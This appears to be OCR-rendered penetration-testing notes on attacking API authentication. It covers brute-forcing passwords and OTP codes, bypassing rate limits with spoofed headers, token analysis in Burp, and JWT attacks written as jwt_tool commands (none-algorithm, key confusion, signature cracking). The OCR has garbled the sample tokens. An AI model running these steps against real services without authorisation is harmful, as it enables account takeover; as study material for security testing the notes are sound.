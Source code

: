 - Finding Security Misconfigurations
1. Verbose Errors : Email Not Found To Email Enumration , Username incorrect, Software version to CVE search / setup locally and test there
1. Debug Mode Enabled : Plenty of wordlists out there to test these
1. Finding Excessive Data Exposures


# ATTACKING API AUTHENTICATION
- Brute Force Authentication
1. Bruteforce Password Accoring To Target Policy
1. BruteForce OTP / 2FA codes
1. Bypass IP Ban With Load Balancer Headers Like X-Forwarded-For, etc
1. Bypass Rate Limiting Via Tampering WIth Signature Headers and using multiple Generated Token
1. Combine ALL Together if nessesary

- Forging Tokens
1. Create multiple accounts
1. Save Access Token into a text file
1. Analyze Using Burp Sequencer > Manual Load > Analyze Now
1. Also Character Level Analysis
1. Burp Live Capture To Analyze Token Predicablilty
1. Use Intruder To Bruteforce
#### JWT ABuse
- Use Burp JWT Extensions
- Use jwt_tool
```bash
jwt_tool <jwt>
jwt_tool eyghbocibiJIUZZINIISIRSCCI6IkpXUCJ9.eyIzdW1101IxMjMENTY3ODkwIiwibmFtZSI6ImhBuEkg
SGFja2VyIiwiaWFQIjoxNTE2MjM5MDIyfQ.IX-Iz_e1CrPrkel FjArExaZpp3Y2tfawJUFQaNdftFw
```
- Attack JWT Using JWT_tool 
```bash
jwt_tool -t http://target-site.com/ -rc "Header: JWT_Token" -M pb
```
- Check Out Attackcking JWT Manual FOr 
1. None Algorithm attack
```bash
# Burp Extension and
jwt_tool <JWT_Token> -X a
```
1. Algorithm attack
```bash
# Check JWT attacks manual 
- Find Company Public Key Used For RS256
- COnvert if it's in a json format to .pem and save it
# jwt_tool eyJBeXAiOiJKV1QiLCJhbGciOiJSUZI1Ni 19.eyJpc3MiOi JodHRwOlwvxC9kZW1vLnNqb2VyZGxhbm
drzwiwZXIubmxcLyIsIm1hdCI6MTYYCJkYXRhIjp7ImhlbGxvijoid29ybGQifx0.MBZKIRF_MvG799nTKOMgdxva
_S-dqsVCPPTR9N9L6q2_10152pHq2YTRafwACdgyhR1A2Wq7wEf4210929BTWsVk19_XkfyDh_Tizeszny_
GGsVzdb103NCITUEjFRXURJ0-MEETROOC-TWB8n6wOTOjWA6SLCEYANSKWaJX5XvBt6HtnxjogunkVz2sVp3
VFPevfLUGGLADKYBphfumd7jkh80ca2lvs8TagkQyCnXq5VhdZsoxkETHwe_n7POBISAZYSMayihlweg -x k-pk
public-key-pem
```
1. Weak Signature Crack Attack
```bash
jwt_tool <JWT Token> -C -d /wordlist.txt
```

